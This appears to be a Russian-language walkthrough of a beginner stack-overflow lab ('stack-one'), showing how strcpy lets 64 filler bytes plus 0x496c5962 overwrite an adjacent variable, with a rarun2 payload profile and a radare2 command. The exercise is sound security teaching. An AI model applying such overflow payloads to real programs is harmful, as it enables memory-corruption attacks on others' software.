

Цель задания - изменить значение поля "volatile int changeme" структуры locals.

Структура имеет вид
```  
struct {
  char buffer[64];
  volatile int changeme;
} locals;
```

Уязвимое место в программе 
`strcpy(locals.buffer, argv[1]);`

Это значит, что необходимо ввести 64 байт мусора и от 1 до 4 байт не 0 значение. (т.к. поле имеет размер int (4 байта))

Для выполнения задания, необходимо заполнить поле произвольным значением отличным от 0 
`locals.changeme == 0x496c5962`

Пишем профиль для rr2
```
#!/usr/bin/rarun2
arg1=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x62\x59\x6c\x49
```

Запускаем радар2
r2 -R profileSO.rr2 -d stack-one

Состояние стека до


После


Код проверки


Содержимое региста eax\


Победа
